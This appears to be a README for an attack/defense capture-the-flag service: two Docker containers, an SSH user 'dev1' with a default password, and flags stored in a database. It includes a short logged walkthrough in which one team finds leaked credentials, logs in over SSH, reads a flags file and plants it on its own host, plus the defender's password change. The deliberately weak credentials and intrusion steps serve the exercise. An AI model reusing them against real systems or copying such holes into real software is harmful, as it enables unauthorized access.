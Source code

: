# Service definition:
- We have two dockers: 
1. A Mysql Database one which contains the flags. 
2. The php one who has install all the services. 
The attacker has access to a web page (web_docker) that has different options to access the information and also the option to create users.
The flags are stored in db docker database and attacker has to go in with the options provided. 

# Service implementation:
web docker is configured to take a copy index.html file from the host machine, letting it in '/var/www/html/index.html'. 
db docker is configured attending to the following tips:
  - It has openssh-server installed and started. 
  - It has a user called 'dev1' whose password is 'dev1_password'. 

 'dev1' user will never be changed, but password can be changed. Moreover, it has also the same user and password for the database. 
 
-Flags: 
    Flags will be stored in 'pasapasa_db_1' docker's flags in faulty_db database and flags table. 

# About exploting:
- The attacker can use the web to find the flag in the table or create a new db user and get the flag from terminal.
- The defender should change 'dev1' user's password. It has to change dev1 db user password and remove all the users created. It cas to remove or restrict access to create_user.php and show_info.php.
  
  Attack performed by Team1 against Team 4. 
  Inspect web page in 10.0.0.104
      We find 'dev1/w3ar3h4ck3r2' credentials.
  ssh -p 8822 dev1@10.0.0.104
        Enter 'w3ar3h4ck3r2' as password
  cat /tmp/flags.txt
     Copy last flags
     Exit
  'ssh -i /home/urko/Deskargak/keyak/team2-sshkey root@10.0.1.1'
  nano /root/xxx.flag
    Paste copied flags. 

  Defense performed by Team4
     'ssh root@10.0.0.104'
     docker exec -it pasapasa_ssh_1 /bin/bash
     passwd dev1
     

# Checker checks:
- Ports to reach dockers are open (WEB:80)
- User 'dev1' exists in webdatubasea_web docker. 
- User 'dev1' exists in webdatubasea_db docker. 
- User 'root' exists in webdatubasea_db docker. 
- /etc/sshd_config file from webdatubasea_web docker has not been changed. 
- /var/www/html/index.html file's content from webdatubasea_web docker has not been changed. 


# License notes


